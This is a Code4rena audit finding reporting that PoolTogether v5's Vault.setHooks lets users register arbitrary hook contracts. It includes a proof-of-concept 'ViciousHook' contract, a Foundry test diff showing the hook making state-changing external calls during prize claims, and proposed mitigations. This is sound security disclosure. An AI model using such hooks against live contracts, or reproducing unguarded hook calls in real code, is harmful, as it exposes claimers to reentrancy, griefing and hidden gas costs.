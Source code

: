 # Original link
https://github.com/code-423n4/2023-07-pooltogether-findings/issues/465
# Lines of code

https://github.com/GenerationSoftware/pt-v5-vault/blob/b1deb5d494c25f885c34c83f014c8a855c5e2749/src/Vault.sol#L653
https://github.com/GenerationSoftware/pt-v5-vault/blob/b1deb5d494c25f885c34c83f014c8a855c5e2749/src/Vault.sol#L1053
https://github.com/GenerationSoftware/pt-v5-vault/blob/b1deb5d494c25f885c34c83f014c8a855c5e2749/src/Vault.sol#L1068


# Vulnerability details

## Impact
The setHooks function in Vault.sol allows users to set arbitrary hooks, potentially enabling them to make external calls with unintended consequences. This vulnerability could lead to various unexpected behaviors, such as unauthorized side transactions with gas paid unbeknownst to the claimer, reentrant calls, or denial-of-service attacks on claiming transactions.

[Vault.sol#L653](https://github.com/GenerationSoftware/pt-v5-vault/blob/b1deb5d494c25f885c34c83f014c8a855c5e2749/src/Vault.sol#L653)
```solidity
function setHooks(VaultHooks memory hooks) external {
    _hooks[msg.sender] = hooks; 

    emit SetHooks(msg.sender, hooks);
  }
```

## Proof of Concept
Consider the following side contract and malicious hook implementation:

Side Contract:
```solidity
// SPDX-License_Identifier: MIT
pragma solidity 0.8.17;

import "forge-std/console.sol";

contract SideContract {
  uint256 public codex;

  function execute() external {
    codex = 1;
    console.log("Entered side contract");
  }
}
```

Malicious Hook:
```solidity
// SPDX-License_Identifier: MIT
pragma solidity 0.8.17;

import { SideContract } from "./SideContract.sol";

contract ViciousHook {
  SideContract public sideContract = new SideContract();

  function beforeClaimPrize(
    address winner,
    uint8 tier,
    uint32 prizeIndex
  ) external returns (address) {
    sideContract.execute();

    return address(this);
  }
}
```

Modified Test File:
```diff
diff --git a/test/unit/Vault/Vault.t.sol b/test/unit/Vault/Vault.t.sol
index d0d6d30..65caca1 100644
--- a/test/unit/Vault/Vault.t.sol
+++ b/test/unit/Vault/Vault.t.sol
@@ -4,6 +4,7 @@ pragma solidity 0.8.17;
 import { UnitBaseSetup, LiquidationPair, PrizePool, TwabController, VaultMock, ERC20, IERC20, IERC4626 } from "test/utils/UnitBaseSetup.t.sol";
 import { IVaultHooks, VaultHooks } from "../../../src/interfaces/IVaultHooks.sol";
 import "src/Vault.sol";
+import { ViciousHook } from "./ViciousHook.sol";
 
 contract VaultTest is UnitBaseSetup {
   /* ============ Events ============ */
@@ -174,6 +175,25 @@ contract VaultTest is UnitBaseSetup {
     vm.stopPrank();
   }
 
+  function testClaimPrize_viciousHook() public {
+    ViciousHook viciousHook = new ViciousHook();
+    vm.startPrank(alice);
+    VaultHooks memory hooks = VaultHooks({
+      useBeforeClaimPrize: true,
+      useAfterClaimPrize: false,
+      implementation: IVaultHooks(address(viciousHook))
+    });
+    vault.setHooks(hooks);
+    vm.stopPrank();
+
+    vm.startPrank(address(claimer));
+
+    mockPrizePoolClaimPrize(uint8(1), alice, 0, address(viciousHook), 1e18, address(claimer));
+    claimPrize(uint8(1), alice, 0, 1e18, address(claimer));
+
+    vm.stopPrank();
+  }
+
   function testClaimPrize_beforeHook() public {
     vm.startPrank(alice);
     VaultHooks memory hooks = VaultHooks({
```
When running the test with `forge test --match-test testClaimPrize_viciousHook -vv ` the output is:
```bash
Running 1 test for test/unit/Vault/Vault.t.sol:VaultTest
[PASS] testClaimPrize_viciousHook() (gas: 321545)
Logs:
  Entered side contract

Test result: ok. 1 passed; 0 failed; finished in 7.29ms
```
This indicates that it is possible for a hook to make an external call and modify the EVM state. With that fact, attack vectors are multiple.

## Tools Used
Foundry

## Recommended Mitigation Steps
To prevent any malicious calls there are two possible solutions:
- Change the `IVaultHook.sol` to set the hooks as view functions and prevent EVM state changes:
```diff
diff --git a/src/interfaces/IVaultHooks.sol b/src/interfaces/IVaultHooks.sol
index 15217b8..95482c1 100644
--- a/src/interfaces/IVaultHooks.sol
+++ b/src/interfaces/IVaultHooks.sol
@@ -23,7 +23,7 @@ interface IVaultHooks {
     address winner,
     uint8 tier,
     uint32 prizeIndex
-  ) external returns (address);
+  ) external view returns (address);
 
   /// @notice Triggered after the prize pool claim prize function is called.
   /// @param winner The user who won the prize and for whom this hook is attached
@@ -37,5 +37,5 @@ interface IVaultHooks {
     uint32 prizeIndex,
     uint256 payout,
     address recipient
-  ) external;
+  ) external view;
 }

```
- As this solution may disturb the business logic, another solution would be to cap the gas used by the hooks. In `Vault.sol`, set a gas limit variable that can be adjusted by the owner of the vault for flexibility:
[Vault.sol#L1053](https://github.com/GenerationSoftware/pt-v5-vault/blob/b1deb5d494c25f885c34c83f014c8a855c5e2749/src/Vault.sol#L1053)
[Vault.sol#L1068](https://github.com/GenerationSoftware/pt-v5-vault/blob/b1deb5d494c25f885c34c83f014c8a855c5e2749/src/Vault.sol#L1068)
```solidity
  function _claimPrize(
    address _winner,
    uint8 _tier,
    uint32 _prizeIndex,
    uint96 _fee,
    address _feeRecipient
  ) internal returns (uint256) {
    VaultHooks memory hooks = _hooks[_winner];
    address recipient;
    if (hooks.useBeforeClaimPrize) {
      recipient = hooks.implementation.beforeClaimPrize{gas: gasLimit}(_winner, _tier, _prizeIndex); @audit-info
    } else {
      recipient = _winner;
    }
...

if (hooks.useAfterClaimPrize) {
      hooks.implementation.afterClaimPrize{gas: gasLimit}( //@audit-info
        _winner,
        _tier,
        _prizeIndex,
        prizeTotal - _fee,
        recipient
      );
    }

    return prizeTotal;
  }

```



## Assessed type

Other